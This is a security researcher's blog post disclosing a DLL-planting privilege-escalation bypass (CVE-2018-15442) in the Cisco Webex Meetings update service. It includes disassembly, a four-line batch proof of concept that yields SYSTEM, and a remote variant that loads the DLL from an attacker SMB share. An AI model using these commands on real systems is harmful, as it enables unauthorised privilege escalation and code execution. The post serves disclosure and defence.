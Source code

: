 ```yaml
---
layout: post
title: "WebExec Reloaded :: Cisco Webex Meetings Desktop App Update Service DLL Planting Elevation of Privilege Vulnerability"
date: 2018-12-03 10:00:00 -0500
categories: blog
---
```


![Cisco Webex](/assets/images/webexec-reloaded/webex-logo.png "Cisco Webex") 

Some time ago [Ron Bowes](https://twitter.com/iagox86) found a vulnerability in Cisco WebEx Meetings Desktop App that could allow local privilege escalation, or, if you have a user account you can use psexec to gain remote code execution as SYSTEM. He named the vulnerability **WebExec** (cute) and even gave it a pretty [website](https://webexec.org/)! The problem? Well, it turns out the patch wasn't so good...
<!--more-->

TL;DR; *I walk through the re-discovery and exploitation of [CVE-2018-15442](/advisories/src-2018-0034) which is a bypass for the original bug. Since the original vulnerability and the bypass are so similar, Cisco decided to not issue a new CVE and I tend to agree with this choice. Technically its a remote code execution but the way this bug is triggered makes more sense for exploitation to come from a local context.*

### Introduction

The [Webex site](https://www.webex.com/products/meetings/index.html) explains what webex is, quickly summing it up as:

> ...With Webex Meetings, joining is a breeze, audio and video are clear, and screen sharing is easier than ever. We help you forget about the technology, to focus on what matters...

Please Cisco, at least don't forget about the security of your technology!

So, after reading Ron's [blog post](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec) we know that the underlying issue was that the **WebExService** takes a user controlled binary and executes it as SYSTEM. I really don't think it gets easier than that for a vulnerability, hooray Cisco!

### Re-discovering the Vulnerability

According to Ron the patched version checks for a signed executable by WebEx.

> The patched version of WebEx still allows remote users to connect to the process and start it. However, if the process detects that it's being asked to run an executable that is not signed by WebEx, the execution will halt. Unfortunately, that gives us no information about whether a host is vulnerable!

Well, let's do what we normally do and check the patch for ourselves. After installing the latest [version](https://akamaicdn.webex.com/client/WBXclient-33.6.2-16/webexapp.msi) at the time from Cisco's CDN, we can check that we have no more updates to do:

![Version 33.6.2.16 was the latest at the time](/assets/images/webexec-reloaded/latest-webex.png "Version 33.6.2.16 was the latest at the time") 

Diving into the binary stored at `C:\Program Files\Webex\Webex\Applications\WebExService.exe` we see some interesting things. The first thing I noticed is that the code only looks for one argument type, that is, `software-update`.

```
.text:00402DC4 loc_402DC4:                                          ; CODE XREF: sub_402D80+1C
.text:00402DC4                 push    offset aSoftwareUpdate       ; "software-update"
.text:00402DC9                 push    dword ptr [esi+8]            ; lpString1
.text:00402DCC                 call    ds:lstrcmpiW
.text:00402DD2                 test    eax, eax
.text:00402DD4                 jnz     loc_402E66
.text:00402DDA                 push    208h                         ; Size
.text:00402DDF                 push    eax                          ; Val
.text:00402DE0                 lea     eax, [ebp+Dst]
.text:00402DE6                 push    eax                          ; Dst
.text:00402DE7                 call    memset
.text:00402DEC                 add     esp, 0Ch
.text:00402DEF                 lea     eax, [ebp+Dst]
.text:00402DF5                 push    offset pszFile               ; "ptupdate.exe"
.text:00402DFA                 push    dword ptr [esi+10h]          ; pszDir
.text:00402DFD                 push    eax                          ; pszDest
.text:00402DFE                 call    ds:PathCombineW
.text:00402E04                 sub     esp, 18h
.text:00402E07                 lea     eax, [ebp+Dst]
.text:00402E0D                 mov     ecx, esp                     ; Dst
.text:00402E0F                 mov     [esi+10h], eax
.text:00402E12                 push    eax                          ; Src
.text:00402E13                 call    sub_402EB0
.text:00402E18                 call    sub_402310                   ; signature check on ptupdate.exe
.text:00402E1D                 add     esp, 18h
.text:00402E20                 test    eax, eax
.text:00402E22                 jz      short loc_402E46             ; jump if we don't pass the check!
.text:00402E24                 lea     eax, [ebp+var_214]
.text:00402E2A                 mov     [ebp+var_214], 0
.text:00402E34                 push    eax
.text:00402E35                 push    ecx
.text:00402E36                 lea     ecx, [edi-3]
.text:00402E39                 lea     edx, [esi+0Ch]
.text:00402E3C                 call    sub_402960                   ; execute "ptupdate.exe" as winlogon.exe
```

Later, the code does a PathCombineW call with an argument that we supply on the command line with the string `ptupdate.exe`. That's about where I stopped reversing. I didn't even bother to reverse the signature check function or the function that does the impersonation and execution. I already had a plan of attack.

### Exploitation

So at this point, all we needed to do was copy the `C:\Program Files\Webex\Webex\Applications\*` (including the ptUpdate.exe binary) into a user controlled folder that the guest or local user owns (this can be a sandboxed directory also) and either find a DLL planting vulnerability or force one by deleting one of the DLL's.

I don't like unexpected application behavior when I can avoid it, so I simply looked for a DLL planting issue that wouldn't affect application state. To do that I ran my litte proof of concept:

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
sc start webexservice a software-update 1 %cd%\\si
```

As it turns out, `SspiCli.dll` looked like a decent target.

![ptUpdate.exe can't find SspiCli.dll in the cwd](/assets/images/webexec-reloaded/dll-planting.png "ptUpdate.exe can't find SspiCli.dll in the cwd") 

Of course, we could have just cross referenced the 43 LoadLibraryW calls and leveraged one of those too. Unfortunately my proof of concept exploit needed to be 4 commands, instead of 3. Booooooo Cisco!

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
copy SspiCli.dll %cd%\\si
sc start webexservice a software-update 1 %cd%\\si
```

![lpe as SYSTEM via dll planting](/assets/images/webexec-reloaded/webex-lpe.png "lpe as SYSTEM via dll planting") 

As mentioned, you could technically leverage this for RCE as SYSTEM as well, but its authenticated anyway. `sc \\victim start webexservice a software-update 1 "\\attacker\share\si"`.

### Conclusion

Whenever you control a path to a file operation that's being performed by a high privileged service, you are bound to be vulnerable to attacks. This vulnerability is so simple and powerful in that it can be triggered from remote using SMB as well as allow for a nice sandbox escape. I'm convinced that logical vulnerabilities will be the future of serious exploitation since they really do side step 99% of operating system level mitigations.

I find it incredible that Cisco couldn't patch this right the first time. All they needed to do was use a fixed path to the `C:\Program Files\Webex\Webex\Applications` directory and remove user controlled input all together. This vulnerability was found in about 10 minutes and I couldn't help but rename the vulnerability to *WebExec reloaded*, get it? ...re-loading an arbitrary DLL by an attacker!?

Finally, a big thanks to [iDefense](https://vcp.idefense.com/login.jsf) for helping with the coordination of the vulnerability!

### References

- [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection)
- [https://blog.skullsecurity.org/2018/technical-rundown-of-webexec](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec)